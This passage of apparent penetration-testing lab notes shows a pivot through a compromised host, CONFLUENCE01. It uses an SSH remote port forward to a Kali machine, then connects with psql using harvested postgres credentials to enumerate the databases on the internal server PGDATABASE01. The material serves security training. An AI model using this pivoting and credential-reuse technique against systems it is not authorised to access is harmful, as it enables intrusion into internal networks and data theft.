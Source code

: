 ```
```

The SSH connection back to our Kali machine was successful
+ We can confirm that our remote port forward port is listening by checking if port 2345 is open on our Kali loopback interface:
```
ss -ntplu
```
+ Example output:
```
Netid State  Recv-Q Send-Q Local Address:Port Peer Address:PortProcess
tcp   LISTEN 0      128        127.0.0.1:2345      0.0.0.0:*
tcp   LISTEN 0      128          0.0.0.0:22        0.0.0.0:*
tcp   LISTEN 0      128             [::]:22           [::]:*
```

It is! Our port forward is now set up as we intended, with the SSH port forward command running on `CONFLUENCE01`:
![[Pasted image 20231214211632.png]]

We can now start probing port 2345 on the loopback interface of our Kali machine, as though we're probing the PostgreSQL database port on `PGDATABASE01` directly
+ On our Kali machine, we will use **psql**, passing **127.0.0.1** as the host (**-h**), **2345** as the port (**-p**), and using the database credentials of the **postgres** user (**-U**) we found earlier on `CONFLUENCE01`:
```
psql -h 127.0.0.1 -p 2345 -U postgres
```
+ Example output:
```
Password for user postgres: 
psql (14.2 (Debian 14.2-1+b3), server 12.11 (Ubuntu 12.11-0ubuntu0.20.04.1))
SSL connection (protocol: TLSv1.3, cipher: TLS_AES_256_GCM_SHA384, bits: 256, compression: off)
Type "help" for help.

postgres=# \l
                                  List of databases
    Name    |  Owner   | Encoding |   Collate   |    Ctype    |   Access privileges   
------------+----------+----------+-------------+-------------+-----------------------
 confluence | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | 
 postgres   | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | 
 template0  | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | =c/postgres          +
            |          |          |             |             | postgres=CTc/postgres
 template1  | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | =c/postgres          +
            |          |          |             |             | postgres=CTc/postgres
(4 rows)

postgres=# 
```
+ Success! We're now interacting with the PostgreSQL instance running on `PGDATABASE01` through our SSH remote port forward by connecting to port 2345 on our own Kali machine
+ Will use `\dt` to list all tables for enumeration
